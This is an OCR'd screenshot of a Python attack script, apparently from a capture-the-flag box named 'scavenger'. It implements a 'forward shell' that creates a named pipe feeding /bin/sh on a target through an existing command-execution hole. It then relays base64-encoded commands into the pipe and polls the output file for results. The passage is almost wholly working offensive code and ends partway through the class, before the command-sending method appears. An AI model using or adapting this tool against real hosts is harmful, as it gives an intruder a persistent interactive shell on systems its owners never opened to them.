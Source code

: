     
    
    #!/usr/bin/env python3
    
    import base64
    import random
    import requests
    import threading
    import time
    from cmd import Cmd
    
    
    class Term(Cmd):
        prompt = "scavenger> "
    
        def __init__(self):
            Cmd.__init__(self)
            session = random.randrange(10000, 99999)
            self.interval = 0.5
            print(f"[*] Session ID: {session}")
            self.stdin = f"/dev/shm/input.{session}"
            self.stdout = f"/dev/shm/output.{session}"
    
            print("[*] Setting up fifo shell on target")
            self.run_raw_command(
                f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}",
                timeout=0.1,
            )
    
            thread = threading.Thread(target=self.ReadThread, args=())
            thread.daemon = True
            thread.start()
    
        def ReadThread(self):
            print("[+] Read Thread starting")
            GetOutput = f"""/bin/cat {self.stdout}"""
            ClearOutput = f"""echo -n "" > {self.stdout}"""
    
            while True:
                result = self.run_raw_command(GetOutput)
                if result:
                    print(result)
                    self.run_raw_command(ClearOutput)
                time.sleep(self.interval)
    
        def do_toggle_prompt(self, args):
            if self.prompt == "":
                self.prompt = "scavenger> "
            else:
                self.prompt = ""
    
        def default(self, args):
            b64cmd = base64.b64encode(f"{args.rstrip()}\n".encode("utf-8")).decode("utf-8")
            stage_cmd = f"echo {b64cmd} | base64 -d > {self.stdin}"
            self.run_raw_command(stage_cmd)
            time.sleep(self.interval * 1.1)
    